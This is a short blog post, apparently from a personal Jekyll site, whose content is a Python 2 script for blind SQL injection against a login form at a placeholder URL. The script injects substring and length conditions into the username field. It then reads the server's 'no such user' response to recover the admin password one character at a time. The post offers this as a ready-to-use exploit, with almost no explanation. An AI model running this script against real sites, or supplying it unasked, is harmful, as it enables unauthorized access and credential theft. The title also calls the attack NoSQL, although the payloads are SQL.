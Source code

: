 ```yaml
---
layout: post
title:  "No-SQL-Blind Injection script !"
date:   2017-01-30 14:45:00 +0100
categories: jekyll update
---
```


Here is a little script to exploit sql blind injections

{% highlight python %}

#!/usr/bin/env python2

import urllib
import urllib2
import time

CHARSET = "0123456789azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN@-_."
url = 'http://www.vulnerable_site.com/auth.php'

def sqlfind(length):
    i = 1
    final = ""
    tmp = 0
    while (i < length + 1): # length + 1 because substring starts at 1 
        query_args = { 'username':"admin' AND substr(password, " + str(i) + ", 1)= '" + CHARSET[tmp] + "' -- ", 'password':"bar" }
        encoded_args = urllib.urlencode(query_args)
        print (query_args["username"])
        response = urllib2.urlopen(url, encoded_args).read()
        time.sleep(0.2)
        if response.find("no such user") == -1:
            i = i + 1
            final += CHARSET[tmp]
            print ("PASSWORD : " + final)
            tmp = 0
        tmp = tmp + 1

def check_nb_chars():
    i = 0
    while (i < 100):
        query_args = { 'username':"admin' AND length(password)=" + str(i) + " -- ", 'password':"bar" }
        encoded_args = urllib.urlencode(query_args)
        print (query_args["username"])
        response = urllib2.urlopen(url, encoded_args).read()
        time.sleep(0.2)
        if response.find("no such user") == -1:
            print "Found the right length " + str(i)
            return (i)
        i = i + 1
    return (-1)

sqlfind(check_nb_chars())

{% endhighlight %}
